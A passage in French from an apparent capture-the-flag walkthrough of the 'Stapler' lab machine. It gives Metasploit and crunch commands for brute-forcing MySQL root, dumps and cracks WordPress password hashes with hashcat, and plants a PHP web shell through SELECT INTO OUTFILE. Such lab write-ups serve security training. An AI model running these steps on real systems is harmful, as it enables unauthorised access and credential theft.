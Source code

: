 On peut ainsi facilement se connecter à la base de données avec `mysql -u root -p
-h stapler`. \ On aurait aussi pu forcer la connexion à l'aide de métasploit:
```bash
msfconsole
search mysql
use auxiliary/scanner/mysql/mysql_login
show options
set RHOSTS <Target IP>
#set USER_FILE /root/<your_username_file>
set USERNAME root
set PASS_FILE /root/<your_password_file>
exploit
```

\

Pour créer la wordlist on peut utiliser `crunch`: \
```bash
cd /tmp/1.txt 
x=""; for i in `seq 1 6`; do x=$x"@"; crunch $i $i -t $x -o $i.txt; done
```


\pagebreak

On a donc:
```bash
mysql -u root -p -h 192.168.56.102
password: plbkac
show databases
use wordpress
show tables
descript wp_users
select * from wp_users
SELECT user_login, user_pass FROM wp_users;
```

Avec hashcat on casse les mots de passe de la base de données pour se connecter
sur le wordpress:

```
cat md5.txt
john:$P$B7889EMq/erHIuZapMB8GEizebcIy9.
...
pam:$P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0

hashcat -a 0 -m 400 md5.txt wordlist -O
hashcat -a 3 -m 400 md5.txt -i -1 ?l?d?u ?1?1?1?1?1?1?1?1?1 -O
hashcat -m 400 md5.txt --username --show
```

On peut alors se connecter avec l'un des users (john est administrateur) sur
[https://stapler/blogblog/wp-admin](https://stapler/blogblog/wp-admin)

Si vous vous souvenez bien on peut exécuter des commandes sur les microsoft sql
servers et sur un server mysql, on peut faire des trucs sympathiques aussi: 
```sql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```
